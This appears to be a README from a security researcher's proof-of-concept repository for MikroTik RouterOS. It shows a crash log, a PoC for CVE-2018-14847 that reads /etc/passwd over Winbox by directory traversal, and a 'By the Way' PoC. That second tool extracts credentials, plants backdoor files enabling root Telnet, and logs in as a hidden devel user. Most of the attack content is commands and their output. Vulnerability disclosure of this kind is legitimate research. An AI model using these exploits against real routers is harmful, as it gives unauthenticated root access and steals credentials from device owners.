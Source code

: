 ```sh
2018.05.25-11:11:54.39@0: 775c2000-775dc000 r-xp 00000000 00:0b 993        /lib/libgcc_s.so.1
2018.05.25-11:11:54.39@0: 775dd000-775ec000 r-xp 00000000 00:0b 977        /lib/libuc++.so
2018.05.25-11:11:54.39@0: 775ed000-77735000 r-xp 00000000 00:0b 987        /lib/libcrypto.so.1.0.0
2018.05.25-11:11:54.39@0: 77744000-77788000 r-xp 00000000 00:0b 989        /lib/libssl.so.1.0.0
2018.05.25-11:11:54.39@0: 7778c000-7779b000 r-xp 00000000 00:0b 995        /lib/libpthread-0.9.33.2.so
2018.05.25-11:11:54.39@0: 7779f000-777a1000 r-xp 00000000 00:0b 992        /lib/libdl-0.9.33.2.so
2018.05.25-11:11:54.39@0: 777a3000-777a6000 r-xp 00000000 00:0b 981        /lib/libuxml++.so
2018.05.25-11:11:54.39@0: 777a7000-777f2000 r-xp 00000000 00:0b 979        /lib/libumsg.so
2018.05.25-11:11:54.39@0: 777f8000-777ff000 r-xp 00000000 00:0b 991        /lib/ld-uClibc-0.9.33.2.so
2018.05.25-11:11:54.39@0: 
2018.05.25-11:11:54.39@0: stack: 0x7ff2d000 - 0x7758806b 
2018.05.25-11:11:54.39@0: 77 43 6f 6e 74 7b 00 00 00 00 00 00 00 a8 80 58 77 3f a2 55 77 64 35 06 08 0c 36 06 08 26 00 00 
2018.05.25-11:11:54.39@0: 00 20 a2 55 77 f0 80 58 77 ec c4 5e 77 b8 80 58 77 58 62 56 77 64 35 06 08 e8 80 58 77 c8 80 58 
2018.05.25-11:11:54.39@0: 
2018.05.25-11:11:54.39@0: code: 0x7755a130
2018.05.25-11:11:54.39@0: 8a 14 38 88 55 f3 0f b6 fa 8b b0 04 01 00 00 01 
2018.05.25-11:11:54.39@0: 
2018.05.25-11:11:54.39@0: backtrace: 0x7755a130 0x7755a23f 0x77562821 0x77564ef1 0x77565369 0x7756122b 0
```

### CVE-2018-14847

This PoC reads /etc/passwd on the remote system via directory traversal over Winbox (8291)


#### Usage

```sh
albinolobster@ubuntu:~/mikrotik/poc/cve_2018_14847/build$ ./cve_2018_14847_poc -i 192.168.8.189 -p 8291

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```

### By the Way

This PoC creates the system backdoor file that enables root Telnet. It essentially allows a remote attacker with no knowledge of the admin password to root the device. Note that this partially leverages CVE-2018-14847 and was therefore patched in April, 2018.


#### Usage

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.8.189

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.8.189:8291
[+] Searching for administrator credentials 
[-] Failed to find admin creds. Trying default.
[+] Using credentials - admin:
[+] Creating /pckg/option on 192.168.8.189:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.8.189:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.8.189
Trying 192.168.8.189...
```